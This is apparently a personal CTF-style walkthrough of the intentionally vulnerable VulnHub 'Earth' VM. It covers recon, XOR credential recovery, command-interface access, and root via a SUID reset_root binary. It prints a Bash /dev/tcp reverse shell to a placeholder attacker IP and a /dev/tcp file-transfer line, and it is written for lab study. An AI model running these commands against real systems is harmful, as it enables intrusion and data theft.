




# Earth

> A technical walkthrough of the **Earth** machine from VulnHub, documenting the methodology used to obtain initial access in a controlled lab environment.

---

## Overview

**Earth** is an intentionally vulnerable Linux virtual machine from **VulnHub**. This write-up documents my approach to identifying the target, enumerating exposed services, discovering hidden resources, recovering credentials, and obtaining initial access.

The privilege escalation phase is currently in progress and will be documented upon successful completion.

---

## Machine Information

| Property         | Value                 |
| ---------------- | --------------------- |
| Platform         | VulnHub               |
| Machine          | Earth                 |
| Operating System | Linux                 |
| Difficulty       | Beginner/Intermediate |
| Environment      | Oracle VirtualBox     |
| Objective        | Obtain Root Access    |
| Status           | In Progress           |

---

## Lab Environment

**Attacker Machine**

* Kali Linux

**Target Machine**

* Earth (VulnHub)

**Network**

* Bridged Adapter (VirtualBox)

---

## Tools Used

* arp-scan
* Nmap
* DIRB
* CyberChef
* Firefox
* OpenSSH (planned)
* Linux CLI Utilities

---

## Reconnaissance

The target machine was first identified by performing an ARP scan across the local network.

```bash
arp-scan --localnet
```


The VirtualBox guest was identified by its Oracle-assigned MAC address prefix (`08`), allowing the target IP address to be distinguished from other devices on the network.

After identifying the target, an Nmap scan was performed to enumerate exposed services.

```bash
nmap -APn -p- <TARGET-IP>
```


The scan revealed three primary services:

* SSH
* HTTP
* HTTPS

The SSL certificate information also revealed additional hostnames:

* earth.local
* terratest.earth.local

Since accessing the application directly via its IP address did not return the expected content, the discovered hostnames were added to the local hosts file.

```text
/etc/hosts
```

This allowed both virtual hosts to be accessed successfully through the browser.

---

## Enumeration

Directory enumeration was performed against both discovered virtual hosts.

```bash
dirb http://earth.local
```

```bash
dirb https://terratest.earth.local
```


The enumeration revealed several interesting resources, including a `robots.txt` file on the HTTPS virtual host.

Inspection of the `robots.txt` file revealed multiple wildcard entries and a reference to a file named:

```text
testingnotes.txt
```

Accessing this file exposed valuable information regarding the application's implementation, including:

* The use of XOR encryption
* A reference to another file named `testdata.txt`
* A potential username:

```text
terra
```

The referenced `testdata.txt` file appeared to contain the encryption key used during application testing.

---

## Credential Recovery

While examining the homepage of **earth.local**, several long hexadecimal strings were observed.

These values were analyzed using **CyberChef** by converting the hexadecimal data and applying XOR decryption with the key obtained from `testdata.txt`.

One of the decoded outputs produced readable plaintext resembling:

```text
Earthclimatechangebad4humans
```


The repeated plaintext appeared to represent a potential password and was selected for authentication testing.

---

## Initial Access

Earlier directory enumeration had revealed an administrative login page.

Using the recovered credentials:

**Username**

```text
terra
```

**Password**

```text
Earthclimatechangebad4humans
```

authentication was successful.

The application presented an administrative command interface capable of executing commands.

Basic enumeration was performed using:

```bash
locate 'flag'
```

The command revealed the location of `flag.txt`, which was successfully accessed, confirming the initial foothold on the target system.

---

---

## Reverse Shell

The administrative command interface only allowed one command to be executed at a time, making further enumeration inefficient. To obtain a more practical shell, a Bash reverse shell was executed, while a Netcat listener was configured on the attacker machine to receive the incoming connection.

**Attacker**

```bash
nc -nlvp 10000
```

**Victim**

```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/10000 0>&1
```


This established a remote shell from the target machine back to the attacker, allowing commands to be executed directly from the Kali terminal.

---

## Shell Upgrade

Although the reverse shell provided command execution, it was not attached to a proper terminal (TTY), limiting interaction with several Linux utilities.

```bash
python3 -c "import pty; pty.spawn('/bin/sh')"
```

Spawning a pseudo-terminal (PTY) improved shell usability by providing a more interactive environment for enumeration and privilege escalation activities.

---

## Privilege Escalation

Privilege escalation began by enumerating executables with the SUID permission set.

```bash
find / -perm -u=s -type f 2>/dev/null
```


This command searches the filesystem for files that execute with the permissions of their owner while suppressing permission-related errors. During enumeration, a custom SUID binary named `reset_root` was identified, making it the primary target for further investigation.

---

## Binary Analysis

To analyze the custom SUID binary more effectively, it was transferred from the victim machine to the attacker machine using Netcat.

**Attacker**

```bash
nc -nlvp 443 > reset_root
```

**Victim**

```bash
cat /path/to/reset_root > /dev/tcp/<ATTACKER-IP>/443
```



The binary was then inspected locally using common Linux analysis tools.

```bash
strings reset_root
chmod +x reset_root
ltrace ./reset_root
```

Static and dynamic analysis revealed that the binary checked for the existence of three specific trigger files before performing its privileged operation.

---

## Trigger Discovery

The `ltrace` output revealed the following required trigger files:

```text
/dev/shm/kHgTFI5G
/dev/shm/Zw7bV9U5
/tmp/kcM0Wewe
```


Since these files did not exist on the target system, the program terminated without performing any privileged action. This indicated that satisfying these checks was required before the binary would continue execution.

---

## Root Access

The required trigger files were created on the victim machine.

```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```

Executing the SUID binary again successfully reset the root password.

```bash
reset_root
```

The output confirmed:

```text
RESET TRIGGERS PRESENT.
RESETTING ROOT PASSWORD TO: Earth
```

The root account was then accessed using:

```bash
su root
```

Entering the newly assigned password granted root privileges.

Verification:

```bash
whoami
```

Output:

```text
root
```

---

## Root Flag

After obtaining root privileges, the root directory became accessible.

```bash
cd /root
cat flag.txt
```


Reading the root flag confirmed successful completion of the Earth machine and full system compromise.

---

## Lessons Learned

* SSL certificates can reveal hidden virtual hosts that are not immediately accessible via IP address.
* Information disclosure files may expose usernames, encryption methods, and other sensitive implementation details.
* Correlating clues from multiple enumeration techniques can lead to successful credential recovery.
* Upgrading a reverse shell to a PTY significantly improves usability during post-exploitation.
* Enumerating SUID binaries is an essential privilege escalation technique on Linux systems.
* Static and dynamic binary analysis can reveal hidden program logic and privilege escalation paths.
* Reverse engineering custom binaries can expose application-specific mechanisms that lead to root access.

---

## Tools Used

* arp-scan
* Nmap
* DIRB
* CyberChef
* Firefox
* Netcat
* Bash
* Python 3
* `find`
* `touch`
* `strings`
* `ltrace`
* OpenSSH
* Linux CLI Utilities

---

## References

* Platform: VulnHub
* Machine: Earth
* CyberChef
* Nmap
* DIRB
* Netcat
* GNU Bash
* Python PTY Module
* ltrace
* GNU Binutils (`strings`)

---

## Disclaimer

This assessment was performed in a controlled lab environment using an intentionally vulnerable virtual machine. The information provided is intended solely for educational purposes.
